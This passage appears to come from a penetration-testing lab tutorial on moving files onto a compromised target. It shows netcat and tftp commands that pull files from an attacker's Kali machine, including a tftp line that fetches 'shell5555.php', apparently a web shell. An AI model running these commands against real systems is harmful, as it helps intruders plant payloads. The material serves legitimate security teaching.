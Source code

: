 ## Netcat

Another easy way to transfer files is by using `netcat`.

`Netcat` is a command-line tool for writing and reading data in the network. For data transfer, `Netcat` uses the TCP/IP and UDP network protocols. Originally

, this tool comes from the Unix universe, but today it is available on all platforms.

Because of its versatility, `Netcat` is often referred to as the "Swiss Army knife of TCP/IP". For example, it can be used to diagnose errors and problems that jeopardize the functionality and security of a network. `Netcat`'s range of features also includes port scanning, data streaming, or simple data transfers. In addition, it can be used to set up chat and web servers as well as to initiate email requests. This simple software was developed in the mid-1990s and can operate in both server and client mode.

If you can't have an interactive shell, it might be risky to start listening on a port since it could be that the attacking machine is unable to connect. So you are left hanging and can't do `Ctrl-C` because that will kill your session.

So instead, you can connect from the target machine like this:

On the Kali machine:

```sh
nc -lvp 4444 < file
```

On the student machine:

```sh
nc 10.12.181.X 4444 > file
```

## Tftp

On some rare machines, we do not have access to `nc`, `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```sh
$ tftp 10.12.181.X
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can do this trick:

```sh
tftp 10.12.181.X <<< "get shell5555.php shell5555.php"
```

## Exercises

1. On your Kali machine, create a file named `malware.php`.

   ```sh
   echo "This is a malware file" > malware.php
   ```
